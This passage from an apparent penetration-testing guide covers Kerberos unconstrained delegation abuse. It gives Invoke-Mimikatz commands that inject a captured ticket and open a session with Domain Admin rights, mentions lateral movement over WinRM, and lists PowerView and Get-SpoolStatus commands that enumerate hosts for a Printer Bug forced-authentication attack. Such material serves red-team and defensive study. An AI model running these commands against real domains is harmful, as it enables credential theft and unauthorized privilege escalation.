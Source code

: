 {% tab title="Invoke-Mimikatz" %}
```powershell
# Pass ticket into current session
Invoke-Mimikatz -Command '"kerberos::ptt [Ticket-Name.kirbi]"'

# Confirm if ticket has been stored
Invoke-Mimikatz -Command '"kerberos::list"'

# Open new session with injected ticket
Invoke-Mimikatz -Command '"misc::cmd"'
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

With effective Domain Administrator permissions from the imported TGT we can now proceed with lateral movement, such as using WinRM:

<figure><img src="../../../../.gitbook/assets/image (8) (1) (5).png" alt=""><figcaption></figcaption></figure>





## Forced Authentication

When a system has Unconstrained Delegation enabled, a potential attack vector is to force other users or systems to authenticate against the host which is configured for unconstrained delegation.

By doing so we can force the victim user / computer account to store a copy of their TGT into the compromised system.

### Printer Bug

#### **Identify vulnerable systems**

Firstly, obtain a list of computers or servers within the domain to test.

```powershell
# PowerView
# Get all computers
Get-DomainComputer -Properties DnsHostName,OperatingSystem | Where {$_.OperatingSystem -Notlike "*server*"} | Select DnsHostname | Out-File DomainComputers.txt -Encoding "ASCII"

# Get all servers
Get-DomainComputer -Properties DnsHostName,OperatingSystem | Where {$_.OperatingSystem -like "*server*"} | Select DnsHostname | Out-File DomainServers.txt -Encoding "ASCII"
```

[Get-SpoolStatus.ps1](https://raw.githubusercontent.com/NotMedic/NetNTLMtoSilverTicket/master/Get-SpoolStatus.ps1) can then be used to iterate through and check for vulnerable servers.

```powershell
Get-SpoolStatus
ForEach ($Server in Get-Content DomainServers.txt) {Get-SpoolStatus $Server}
```
